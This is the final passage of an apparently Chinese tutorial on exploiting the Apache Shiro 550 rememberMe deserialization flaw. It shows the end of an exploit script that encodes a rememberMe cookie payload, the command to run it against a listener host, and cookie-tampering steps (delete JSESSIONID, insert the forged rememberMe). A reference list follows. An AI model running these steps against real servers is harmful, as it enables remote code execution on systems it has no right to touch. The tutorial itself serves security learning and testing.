 ```python
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])
print("rememberMe={0}".format(payload.decode()))
```

执行`python exp_shiro.py U_host:1099`

![img](img/19.png)

这里给看新手教程的师傅们提一下，首先需要有一个登陆状态，然后访问直接登录，让系统去调用这个记住密码，去读cookie的内容进行反序列化。首先在cookie中有个值是`JSESSIONID=61BD9B8C0606F2A130800B3257EF5EE6;`它也是验证身份的一个点，在`JSESSIONID`存在时，它不会去验证`rememberMe`的值。所以需要将cookie中的`JESSIONID`先删除掉，再写入我们生成的`rememberMe`，发包即可。

![img](img/20.png)

### 参考资料

[https://zeo.cool/2020/09/03/Shiro%20550%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90+poc%E7%BC%96%E5%86%99/](https://zeo.cool/2020/09/03/Shiro 550 反序列化漏洞 详细分析+poc编写/)

https://www.cnblogs.com/liangzai6/p/14505494.html

[https://xz.aliyun.com/t/8997](https://xz.aliyun.com/t/8997#toc-4)

https://www.jianshu.com/p/a9c2d3414b63

https://www.yuque.com/kevin-eb6ln/dyniv1/dfxi6h